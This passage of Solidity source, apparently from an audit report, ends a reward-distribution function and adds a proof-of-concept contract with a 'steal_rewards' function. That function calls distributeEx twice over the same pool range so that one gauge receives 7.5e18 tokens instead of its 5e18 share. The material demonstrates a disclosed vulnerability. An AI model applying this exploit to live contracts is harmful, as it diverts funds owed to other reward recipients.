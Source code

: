 ```
    ) public {
        uint256 _balance = IERC20(token).balanceOf(address(this));
        if (_balance > 0 && totalWeight > 0) {
            uint256 _totalWeight = totalWeight;
            for (uint256 x = start; x < finish; x++) {
                uint256 _reward = (_balance * weights[_pools[x]]) /
                    _totalWeight;
                if (_reward > 0) {
                    address _gauge = gauges[_pools[x]];
                    IERC20(token).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
                    IERC20(token).approve(_gauge, _reward);
                    IGauge(_gauge).notifyRewardAmount(token, _reward); // can return false, will simply not distribute tokens
                }
            }
        }
    }
}

contract DistributorExPOC {

    function steal_rewards() external {
        Zero zero = new Zero();
        DistributorEx d = new DistributorEx();
        d.setup();
        zero.transfer(address(d), 10e18);
        
        //d.distributeEx(address(zero), 0, 2);
        //require(zero.balanceOf(d.gauges(address(0x1111))) == 5e18);
        //require(zero.balanceOf(d.gauges(address(0x1112))) == 5e18);
        d.distributeEx(address(zero), 0, 1);
        d.distributeEx(address(zero), 0, 1);
        require(zero.balanceOf(d.gauges(address(0x1111))) == 7.5e18);
    }
}
```